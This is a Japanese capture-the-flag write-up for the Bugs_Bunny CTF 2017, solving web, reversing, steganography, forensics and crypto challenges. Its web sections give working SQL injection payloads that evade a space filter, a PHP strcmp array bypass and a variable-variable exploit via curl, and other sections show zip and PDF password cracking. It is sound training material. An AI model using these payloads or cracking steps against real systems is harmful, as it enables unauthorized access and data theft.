



チーム Harekaze で [bugs_bunny ctf 2k17](http://www.bugsbunnyctf.me/) に参加しました。最終的にチームで 3061 点を獲得し、順位は得点 420 チーム中 10 位でした。うち、私は 21 問を解いて 1970 点を入れました。

以下、解いた問題の write-up です。

## [Web 5] Nothing here

与えられた URL にアクセスしてみると、ソースに以下のようなコメントがありました。

```html
<!-- QnVnc19CdW5ueXs1MjljNDI5YWJkZTIxNzFkMGEyNTU4NDQ3MmFmODIxN30K -->
```

Base64 デコードするとフラグが得られました。

```
Bugs_Bunny{529c429abde2171d0a25584472af8217}
```

## [Web 35] Old php vuln !

与えられた URL にアクセスしてみると、以下のようなフォームが表示されました。

```html
<form role="form" method="POST">
    <fieldset>
        <div class="form-group">
            <input class="form-control" placeholder="Username" name="username" >
        </div>
        <div class="form-group">
            <input class="form-control" placeholder="Password" name="password" type="password" >
        </div>
        <!-- Change this to a button or input when using this as a form -->
        <button type="submit" class="btn btn-success btn-block" name="login" value="on">Login</button>
        <p>New Member? <a href="#" class="">Sign up</a></p>
    </fieldset>
</form>
```

問題名的に `strcmp($_POST['password'], 'password') == 0` という感じで文字列の比較をしているのでしょう。`strcmp` が `NULL` を返すように `username[]=hoge` `password[]=fuga` を投げるとフラグが得られました。

```
Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}
```

## [Web 80] SimplePHP

以下のようなソースコードが与えられました。

```php
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
	die($_403);


foreach ($_GET as $key => $value)
	$$key = $$value;

foreach ($_POST as $key => $value)
	$$key = $value;


if ( $_POST["flag"] !== $flag )
	die($_403);


echo "This is your flag : ". $flag . "\n";
die($_200);

?>
```

`$_GET` と `$_POST` に対して `extract` のようなことをしています。が、`$_GET` の場合は `$$key = $$value` のように `key` だけでなく `value` まで可変変数としてしまっています。

そのため `index.php?_200=flag` にアクセスすることで `$_200` の内容を `$flag` と同じ内容にさせることができます。

`curl "http://34.253.165.46/SimplePhp/index.php?_200=flag" -d "flag=hoge"` を実行するとフラグが得られました。

```
Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```

## [Web 100] Web100

与えられた URL にアクセスすると、`Please enter your passowrd` とプロンプトが表示されました。

ソースを見てみると以下のような処理がありました。

```javascript
var generate = function(string) {

    function RT(lValue, iShiftBits) {
        return (lValue << iShiftBits) | (lValue >>> (32 - iShiftBits));
    }

...

    var temp = WordToHex(a) + WordToHex(b) + WordToHex(c) + WordToHex(d);

    return temp.toLowerCase();
}
__seceret = '622b010e27e3f82d0f4e2e69a3785a395767c7a39599aea7114553448239eb41cab90bfecd4a8a0881d0a8128f27c483';
var _=__=___='';
for (var i = 0; i < __seceret.length; i+=3) {
   _+=__seceret[i+0]; 
   __+=__seceret[i+1];
   ___+=__seceret[i+2];
}
var h = prompt("Please enter your passowrd");
if(generate(h[11]+h[8]+h[1]+h[0]+h[9]+h[4]+h[13])==_&&generate(h[15]+h[10]+h[3]+h[5]+h[6])==__&&generate(h[16]+h[12]+h[14]+h[2]+h[7])==___){
    alert('your flag is Bugs_Bunny{'+h+'}');
}else{
    alert('I\'m sorry my son it\' not easy');
}
```

`generate('')` を実行すると `d41d8cd98f00b204e9800998ecf8427e` という文字列を返しました。どうやら `generate` は MD5 のようです。

`__seceret='...'` から読んでいきましょう。`__seceret` に文字列を代入してからそれを `_` `__` `___` に 3 分割し、プロンプトで入力されたパスワードも 3 分割して MD5 ハッシュを計算してから `_` `__` `___` と比較しています。

`_` `__` `___` はそれぞれ `'6b07fd4ea837c39e1542e1bbca01a224'` `'20ee80e63596799a1543bc9fd88d8878'` `'21232f297a57a5a743894a0e4a801fc3'` になりました。[HashKiller](https://hashkiller.co.uk/md5-decrypter.aspx) に投げてみると入力はそれぞれ `tunisia` `bunny` `admin` であることが分かりました。

```
Bugs_Bunny{inininynusutdamba}
```

## [Web 140] LQI_X

与えられた URL にアクセスすると、ユーザ名とパスワードが入力できるフォームが表示されました。

試しにユーザ名に `admin`、パスワードに `admin` を入力すると何も起こりませんでした。

パスワードを `' or 1;--` に変えると `No way SOrry` と表示されました。`a b` に変えてみても `No way SOrry` と表示されるので、どうやら半角スペースはパスワードに含まれてはいけないようです。

パスワードを `'/**/or/**/1;--` に変えると `test` と表示されました。`''/**/and/**/0/**/union/**/select/**/sqlite_version();--` に変えると `3.11.0` と表示されました。どうやら SQLi ができるようです。

テーブルの構造を調べてみましょう。`'/**/and/**/0/**/union/**/select/**/group_concat(sql)/**/from/**/sqlite_master;--` で以下のように表示されました。

```
CREATE TABLE "USERS" (
  "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
  "username" varchar(255),
  "password" varchar(255)
),CREATE TABLE sqlite_sequence(name,seq)
```

`users` というテーブルの内容を全部調べてみましょう。`'/**/and/**/0/**/union/**/select/**/group_concat(username||password)/**/from/**/users;--` を試してみると `No way SOrry` と表示されました。いろいろ試しているとどうやら `username` がダメなようです。


`'/**/and/**/0/**/union/**/select/**/group_concat(b||c,'')/**/from/**/(select/**/1/**/a,/**/2/**/b,/**/3/**/c/**/union/**/select/**/*/**/from/**/users);--` で以下のように表示されました。

```
23testtesthellohelloflag_ishereBugs_Bunny{SQLi_Easy_!!_Easy_I_Dont_Thinkso_2017!}
```

```
Bugs_Bunny{SQLi_Easy_!!_Easy_I_Dont_Thinkso_2017!}
```

## [Reverse Engineering 75] mysterious !

`rev75` という x86_64 の ELF バイナリが与えられました。`strings` に投げると以下のような文字列が見つかりました。

```
$ strings -a rev75
...
iVBORw0KGgoA
AAANSUhEUgAA
AoAAAAGQCAYA
AAA+89ElAAAA
BmJLR0QA/wD/
...
AAEIAIAABABA
AAIAIAABAAQg
AACy5v8BjDWw
a4oYZqgAAAAA
SUVORK5CYII=
...
```

`iVBORw0KGgoA` を Base64 デコードすると `'\x89PNG\r\n\x1a\n\x00'` が出てきました。どうやら PNG が Base64 エンコードされて埋め込まれているようです。集めてデコードするとフラグが得られました。

```python
import io
from PIL import Image
s = '''
...
'''.strip()
s = ''.join(s.splitlines())
with open('res.png', 'wb') as f:
  f.write(s.decode('base64'))
```

```
Bugs_Bunny{Th1s_t0t4lly_Th3_fl4g}
```

## [Reverse Engineering 100] rev100

`rev100` という x86_64 の ELF バイナリが与えられました。まず `main` を逆アセンブルしてみましょう。

```
   0x00000000004008a5 <+0>:     push   rbp
   0x00000000004008a6 <+1>:     mov    rbp,rsp
   0x00000000004008a9 <+4>:     sub    rsp,0x10
   0x00000000004008ad <+8>:     mov    esi,0x400a84
   0x00000000004008b2 <+13>:    mov    edi,0x6010c0
   0x00000000004008b7 <+18>:    call   0x400740 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000004008bc <+23>:    call   0x40086d <_Z13i_am_debuggedv>
   0x00000000004008c1 <+28>:    test   eax,eax
   0x00000000004008c3 <+30>:    setne  al
   0x00000000004008c6 <+33>:    test   al,al
   0x00000000004008c8 <+35>:    je     0x4008d4 <main+47>
   0x00000000004008ca <+37>:    mov    eax,0x1
   0x00000000004008cf <+42>:    jmp    0x40099f <main+250>
   0x00000000004008d4 <+47>:    mov    edi,0x601070                        # "aA@7mw4,_AB`\a4}\022Wz\"%O("
   0x00000000004008d9 <+52>:    call   0x400750 <strlen@plt>
   0x00000000004008de <+57>:    add    rax,0x1
   0x00000000004008e2 <+61>:    mov    rdx,rax
   0x00000000004008e5 <+64>:    mov    esi,0x601070                        # "aA@7mw4,_AB`\a4}\022Wz\"%O("
   0x00000000004008ea <+69>:    mov    edi,0x6011e0
   0x00000000004008ef <+74>:    call   0x400770 <memcpy@plt>
   0x00000000004008f4 <+79>:    call   0x40086d <_Z13i_am_debuggedv>
   0x00000000004008f9 <+84>:    test   eax,eax
   0x00000000004008fb <+86>:    setne  al
   0x00000000004008fe <+89>:    test   al,al
   0x0000000000400900 <+91>:    je     0x40090c <main+103>
   0x0000000000400902 <+93>:    mov    eax,0x1
   0x0000000000400907 <+98>:    jmp    0x40099f <main+250>
   0x000000000040090c <+103>:   mov    edi,0x601090                        # "#4'D25AB18987F\"#$%DP!U"
   0x0000000000400911 <+108>:   call   0x400750 <strlen@plt>
   0x0000000000400916 <+113>:   add    rax,0x1
   0x000000000040091a <+117>:   mov    rdx,rax
   0x000000000040091d <+120>:   mov    esi,0x601090                        # "#4'D25AB18987F\"#$%DP!U"
   0x0000000000400922 <+125>:   mov    edi,0x601220
   0x0000000000400927 <+130>:   call   0x400770 <memcpy@plt>
   0x000000000040092c <+135>:   mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000400933 <+142>:   jmp    0x40098f <main+234>
   0x0000000000400935 <+144>:   call   0x40086d <_Z13i_am_debuggedv>
   0x000000000040093a <+149>:   test   eax,eax
   0x000000000040093c <+151>:   setne  al
   0x000000000040093f <+154>:   test   al,al
   0x0000000000400941 <+156>:   je     0x40094a <main+165>
   0x0000000000400943 <+158>:   mov    eax,0x1
   0x0000000000400948 <+163>:   jmp    0x40099f <main+250>
   0x000000000040094a <+165>:   mov    rdx,QWORD PTR [rip+0x20090f]        # 0x601260 <C>
   0x0000000000400951 <+172>:   mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400954 <+175>:   cdqe   
   0x0000000000400956 <+177>:   add    rdx,rax
   0x0000000000400959 <+180>:   mov    rcx,QWORD PTR [rip+0x200900]        # 0x601260 <C>
   0x0000000000400960 <+187>:   mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400963 <+190>:   cdqe   
   0x0000000000400965 <+192>:   add    rax,rcx
   0x0000000000400968 <+195>:   movzx  eax,BYTE PTR [rax]
   0x000000000040096b <+198>:   mov    ecx,eax
   0x000000000040096d <+200>:   mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400970 <+203>:   cdqe   
   0x0000000000400972 <+205>:   movzx  esi,BYTE PTR [rax+0x601070]
   0x0000000000400979 <+212>:   mov    eax,DWORD PTR [rbp-0x4]
   0x000000000040097c <+215>:   cdqe   
   0x000000000040097e <+217>:   movzx  eax,BYTE PTR [rax+0x601090]
   0x0000000000400985 <+224>:   xor    eax,esi
   0x0000000000400987 <+226>:   add    eax,ecx
   0x0000000000400989 <+228>:   mov    BYTE PTR [rdx],al
   0x000000000040098b <+230>:   add    DWORD PTR [rbp-0x4],0x1
   0x000000000040098f <+234>:   mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400992 <+237>:   cdqe   
   0x0000000000400994 <+239>:   cmp    rax,0x16
   0x0000000000400998 <+243>:   jb     0x400935 <main+144>
   0x000000000040099a <+245>:   mov    eax,0x0
   0x000000000040099f <+250>:   leave  
   0x00000000004009a0 <+251>:   ret 
```

0x601070 と 0x601090 の内容を xor するとフラグが得られました。

```
Bugs_Bunny{X0r_1s_fun}
```

## [Steganography 100] odd & even 2

以下のような画像が与えられました。



ガウシアン差分で輪郭抽出をしてみるとフラグが得られました。



```
BUGS_BUNNY{Odd_2nd_3V3N_2r3nt_funNy}
```

## [Steganography 130] Fix Me

以下のような不思議な QR コードが 1 枚と、回転された QR コードの一部が 50 枚与えられました。



QR コードの一部は以下のような画像で、ファイル名は `(97,97,30).png` のようになっていました。


QR コードの一部を全て、不思議な QR コードの方に貼り付けてみましょう。

```python
import glob
import re
from PIL import Image

res = Image.open('res.png')
for f in glob.glob('qrcode/*.png'):
  x, y, t = re.findall(r'\((\d+),(\d+),(\d+)\)', f)[0]
  res.paste(Image.open(f).rotate(-int(t)), (int(x), int(y)))
res.save('solved.png')
```


```
Bugs_Bunny{QrCod2_Look_50_Co0l}
```

## [Forensics 180] Oh boy !

`data` という謎のバイナリが与えられました。バイナリエディタで眺めてみると `PK` やファイル名が見え、どうやら zip のようです…が、`data` の最初の 2 バイトは `00 00` になっていました。

`data` の最初の 2 バイトを `50 4B 03 04` に変えると正しい zip になりましたが、どうやら展開するにはパスワードが必要なようです。`zip2john` と `john` でパスワードを調べてみると `123456789` と分かりました。

`for200/` というディレクトリ、`for200/` 下に 202 個の謎のバイナリが展開されました。ファイルのハッシュを調べてみると以下のような結果になりました。

```
$ md5sum *
...
95448afaa0a0f0180433228d8ff5cd9f *97b23885ddbb15c507932f4919f696c7
95448afaa0a0f0180433228d8ff5cd9f *9a3a6bd74067e028afe6ec19ded596f4
95448afaa0a0f0180433228d8ff5cd9f *9be3af4880b8cc3b16590c86261080e4
879d2455c8d1deac718b1d75f3daf5dd *9c8b6e439d34e49982350f701998f521
95448afaa0a0f0180433228d8ff5cd9f *9d7289c3ae4fbbb61c618e39ced2e0ce
95448afaa0a0f0180433228d8ff5cd9f *9e30f53d73a1309f69158d4f4522c75e
95448afaa0a0f0180433228d8ff5cd9f *9e360723b81e64ac5a688d096d696bc2
...
```

`9c8b6e439d34e49982350f701998f521` だけハッシュ値が異なっています。調べてみましょう。

バイナリエディタで調べてみると `IHDR` `PLTE` `IDAT` のような PNG のチャンク名が見えますが、先頭 4 バイトが `00 00 00 00` になっています。

先頭 4 バイトを `89 50 4E 47` に変えるとフラグが QR コードで表示されました。

```
Bugs_Bunny{1s_1t_C0nfusing_1!}
```

## [Misc 40] Locked PDF

`Patricia.pdf` というパスワード付きの PDF が与えられました。

rockyou.txt を辞書として [PDFCrack](http://pdfcrack.sourceforge.net/) に投げると `g00skie` がパスワードであると分かりました。

```
Bugs_Bunny{Pdf_Cr4Ck1nG_1s_Ea5y}
```

## [Crypto 15] Crypto-15

以下のようなテキストファイルが与えられました。

```python
# -*- pbqvat: hgs-8 -*-
#/hfe/ova/rai clguba
vzcbeg fgevat
# Synt : Cvht_Cvooz{D35bS_3OD0E3_4S3_O0U_T3DvS3_BU_4MM}
qrs rapbqr(fgbel, fuvsg):
  erghea ''.wbva([ 
            (ynzoqn p, vf_hccre: p.hccre() vs vf_hccre ryfr p)
                (
                  ("nopqrstuvwxyzabcdefghijklm"*2)[beq(pune.ybjre()) - beq('n') + fuvsg % 26], 
                  pune.vfhccre()
                )
            vs pune.vfnycun() ryfr pune 
            sbe pune va fgbel 
        ])


qrs qrpbqr(fgbel,xrl):
	cnff


vs __anzr__ == '__znva__':
	xrl = [_LBHE_XRL_URER_]
	cevag qrpbqr("Cvht_Cvooz{D35bS_3OD0E3_4S3_O0U_T3DvS3_BU_4MM}",xrl)
```

`Cvht_Cvooz{D35bS_3OD0E3_4S3_O0U_T3DvS3_BU_4MM}` をシーザー暗号として右に 25 シフトするとフラグが得られました。

```
Bugs_Bunny{C35aR_3NC0D3_4R3_N0T_S3CuR3_AT_4LL}
```

## [Crypto 25] Crypto-25

以下のようなテキストファイルが与えられました。

```
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook.
...
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. 
```

Brainf**k の派生言語の Ook! で書かれたプログラムのようです。実行するとフラグが得られました。

```
Bugs_Bunny{Ju5T_OoK!}
```

## [Crypto 45] Scy way

以下のような暗号文が与えられました。

```
IHUDERMRCPESOLLANOEIHR
```

問題名からスキュタレー暗号 (Scytale) が使われていると考えたので、ブルートフォースしてみるとフラグが得られました。

```
Bugs_Bunny{ISHOULDLEARNMORECIPHER}
```

## [Crypto 50] Crypto-50

`Vm0wd2QyUXlVWGxW...VlJkMUJSUFQwPQ==` という感じの大きなテキストファイルが与えられました。

`==` で終わっているので Base64 でエンコードされていると考えました。エラーが出るまで Base64 デコードし続けるとフラグが得られました。

```python
with open('enc.txt') as f:
  s = f.read()

while True:
  try:
    s = s.decode('base64')
  except:
    print s
    break
```

```
Bugs_Bunny{N0T_H4Rd_4T_4ll}
```

## [Crypto 55] Baby RSA

以下の情報と複数の暗号文が得られました。

```
N: 20473673450356553867543177537
e: 17
```

N を [factordb.com](http://www.factordb.com/index.php?query=20473673450356553867543177537) に投げてみると素因数分解ができました。暗号文を復号しましょう。

```python
import gmpy2

p, q = 2165121523231, 9456131321351327
n = p * q
e = 17
d = gmpy2.invert(e, (p - 1) * (q - 1))

with open('enc.txt', 'r') as f:
  s = f.read()

res = ''
for c in s.splitlines():
  c = int(c)
  res += chr(pow(c, d, n))

print res
```

```
Bugs_Bunny{Baby_RSA_Its_Cool_Lik3_school_haHAha}
```